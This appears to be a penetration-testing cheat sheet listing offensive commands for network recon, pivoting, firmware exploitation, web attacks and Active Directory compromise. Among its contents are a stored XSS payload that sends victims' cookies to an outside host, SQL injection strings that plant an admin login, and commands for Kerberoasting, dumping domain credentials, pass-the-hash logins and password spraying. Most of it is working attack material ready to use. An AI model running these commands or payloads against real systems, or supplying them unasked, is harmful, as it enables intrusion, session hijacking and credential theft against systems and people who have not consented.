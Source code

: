 # Basic Commands and Techniques

---

### <u>1. Recon </u>

- Nmap - General Scan
  

```bash
nmap -Pn -T5 -sC -sV -oN InitialScan_NMAP <IP> # General Scan
```

- Nmap - Full Scan
  

```bash
nmap -Pn -p- -oN All_Ports_Nmap <IP> --min-rate=10000 # Full Scan
```

- Rustscan
  

```bash
rustscan -a <IP>
```

- Nikto
  

```bash
nikto -h http://IP 
```

- Finger - User enum
  

```bash
finger @ IP
finger admin @ IP
```

- Scan Table
  

|     | 10.10.10.10 | 20.20.20.20 |
| --- | --- | --- |
| **OS** | Windows 7 | Linux |
| **Ports** | 3389 | 22,80 |
| **Services** | RDP | SSH, HTTP |
| **Vulns** |     |     |
| **Exploits** |     |     |
| **Notes** |     |     |
| **Priority** |     |     |

---

### <u>2. External</u>

- FTP
  

```bash
ftp <IP> #username = anonymous and password blank
=> put file.txt #upload
=> get file.txt #Download
```

- CMS - Wordpress
  

```bash
wpscan --url http://IP -e u p 
```

---

### <u>3. Internal</u>

- Ping Sweep
  

```bash
sudo netdiscover
netdiscover -i eth0 -p #passive - takes time
netdiscover -i eth0 -r IP subnet
nmap -sP IP #Ping Sweep


for i in $(seq 254);do ping 10.10.10.${i} -c1 -W1;done | grep from
```

- Db_Nmap
  

```bash
sudo msfdb init
workspaces -a #Lists all workspaces
db_nmap -sS IP #General Scaning methods
Hosts
Services
```

- SMB - Samba
  

```bash
nmap --script smb-os-discovery IP
smbclient -L \\\\IP\\share -N 
smbmap -H IP -U username -P Password -d domain.htb
enum4linux -a IP
```

- RPC and NFS
  

```bash
showmount -e IP
sudo mount -t nfs IP:/path /created_dir -o nolock
```

---

### <u>4. Pivoting</u>

- Chisel
  

```bash
#Attacker Machine
chisel server --socks5 --reverse

#Victim Machine - Just a single port frwd
chisel client --fingerprint <That Hash> <Attacker IP : Listen Port> R:New_Listen_port:Victim IP:Victim Port


chisel client --fingerprint <That Hash> <Attacker IP : Listen Port> R:socks
```

- RDP
  

```bash
xfreerdp /v:Victim_IP /u:Administrator
proxychains xfreerdp /v:Victim_IP /u:Administrator #If pivot
```

---

### <u>5. IOT</u>

| Description | Command |
| --- | --- |
| Identify the filetype | file firmware.bin |
| gather the hexdump | hexdump -c firmware.bin \| more => qshs = squashfs |
| Extract the fireware | binwalk -e firmware.bin |
| Firmadyne Extracting the firmware | sudo python3 sources/extractor/extractor.py -b Netgear -sql 127.0.0.1 -np -nk "WNAP320 Firmware Version 2.0.3.zip" images |
| Get the architecture of the firmware | sudo bash scripts/getArch.sh images/1.tar.gz. |
| load the contents of the filesystem for firmware 1 into the database and populate the object and object_to_image tables | sudo python3 scripts/tar2db.py -i 1 -f images/1.tar.gz. |
| Configure the Network | sudo bash scripts/inferNetwork.sh |
| Execute the script | sudo bash scratch/1/run.sh. |
| Extract Data using SNMP | sudo bash analyses/snmpwalk.sh 192.168.0.100 |
| Make a new folder and try these exploits | sudo chmod +x analyses/runExploits.py.<br/>sudo python analyses/runExploits.py -t 192.168.0.100 -o exploits/exploit -e x. |

---

### <u>6. Web Vulns</u>

| Description | Command |
| --- | --- |
| Stored XSS, Cookie Steal Script | #####<a onclick="document.location='http://www.oceanplaza.com/Default.aspx?cookie='+escape(document.cookie);" href=#> trust me </ar> |
| IDOR | Visit Profile Pages or any other pages and change the ID |
| SQLI | Sqlmap -r for_sql.req --dumps --tables<br/><br/><br/>Sqlmap -u 'domain' -X POST --data "<Paste the Request>" --dumps --tables<br/><br/>admin' OR 1=1 --<br/><br/>admin' ;insert into login values('superman','superman123');--<br/><br/>admin' ;create database kryptonite;-- |

---

### 7. Active Directory

- Group Policy Hash
  

```bash
gpp-decrypt <hash> # Group Policy XML Hash
```

- BloodHound Ingestor and neo4j
  

```bash
bloodhound-python --dns-tcp -ns <Victim_IP> -d domain.htb -u username -p password

#Start Bloodhound
Terminal 1: neo4j console
Terminal 2: bloodhound
```

- Kerberoasting - 2 Ways
  

```bash
1. GetNPUsers.py -no-pass -usersfile users.txt -dc-ip <victimIP> domain.htb/
2. GetNPUsers.py -request -dc-ip <victimIP> domain.htb/
3. GetUserSPNs.py -request -dc-ip <victimIP> domain.htb/username
```

- psexec.py
  

```bash
psexec.py domain.htb/username@IP
```

- SecretsDump.py
  

```bash
secretsdump.py -just-dc username@IP
```

- Evil-WinRM
  

```bash
evil-winrm -i IP -u Administrator -H Hash
```

- Crackmapexec
  

```bash
crackmapexec smb 192.168.100.0/24 -u user_file.txt -p pass_file.txt
```
